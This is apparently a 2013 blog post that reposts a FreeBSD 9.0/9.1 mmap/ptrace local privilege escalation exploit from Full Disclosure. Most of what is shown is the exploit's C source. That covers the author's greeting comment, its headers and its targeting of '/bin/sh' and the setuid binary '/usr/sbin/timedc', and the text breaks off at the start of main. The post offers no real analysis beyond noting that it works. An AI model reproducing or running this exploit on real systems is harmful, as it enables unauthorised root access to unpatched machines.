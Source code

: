 ```yaml
---
title        : "FreeBSD mmap+ptrace Privilege Escalation Exploit Analysis"
date         : "2013-06-20"
tags         : [FreeBSD, Security, C++]
---
```


> Happy Birthday FreeBSD! Now you are 20 years old and your security is the same
> as 20 years ago... :) -- Hunger <hunger@hunger.hu>

Saw this little birthday gift this morning from [Full
Disclosure](http://seclists.org/fulldisclosure/2013/Jun/161). Works on my FreeBSD VM. Here's a screenshot.

![mmap_exploit](/assets/images/freebsd-mmap-ptrace-exploit-analysis/mmap_exploit.png)

And here's the exploit code

``` c++
/*
 * FreeBSD 9.{0,1} mmap/ptrace exploit
 * by Hunger <fbsd9lul@hunger.hu>
 *
 * Happy Birthday FreeBSD!
 * Now you are 20 years old and your security is the same as 20 years ago...
 *
 * Greetings to #nohup, _2501, boldi, eax, johnny_b, kocka, op, pipacs, prof,
 *              sd, sghctoma, snq, spender, s2crew and others at #hekkcamp:
 *                      I hope we'll meet again at 8@1470n
 *
 * Special thanks to proactivesec.com
 *
 */

#include <err.h>
#include <errno.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/ptrace.h>
#include <sys/wait.h>

#define SH "/bin/sh"
#define TG "/usr/sbin/timedc"

int
main(int ac, char **av) {
   int from_fd, to_fd, status;
   struct stat st;
   struct ptrace_io_desc piod;
```